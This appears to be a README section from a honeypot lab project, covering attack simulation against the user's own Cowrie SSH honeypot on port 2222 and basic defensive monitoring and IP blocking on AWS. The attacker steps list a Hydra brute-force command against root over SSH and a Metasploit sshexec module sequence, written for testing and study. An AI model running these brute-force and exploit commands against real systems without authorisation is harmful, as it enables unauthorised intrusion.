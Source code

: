 # Attack Simulation

This section covers how to simulate attacks on the honeypot to analyze its behavior.

## Role of the Attacker
### Tools Used:
- **Hydra**: For brute-force password attempts.
- **Metasploit Framework**: To exploit vulnerabilities.

### Steps:
1. Identify the honeypot’s IP and port (**2222**).

2. **Use Hydra for brute-forcing**:
   ```bash
    hydra -l root -P passwords.txt ssh://<public-ip>:2222

3. **Exploit vulnerabilities with Metasploit**:
   ```bash
    msfconsole
    use exploit/unix/ssh/sshexec
    set RHOST <public-ip>
    set RPORT 2222
    run


##Role of the Defender
##Tools Used:
- **Honeypot logs**: /home/cowrie/cowrie/var/log/cowrie.log.
-**AWS Security Groups for blocking malicious IPs**.


##Steps:
1. Monitor logs in real time:
  ```bash
  tail -f /home/cowrie/cowrie/var/log/cowrie.log

2. **Identify suspicious IPs and block them**:
  ```bash
  aws ec2 revoke-security-group-ingress --group-id <group-id> --protocol tcp --port 2222 --cidr <malicious-ip>/32
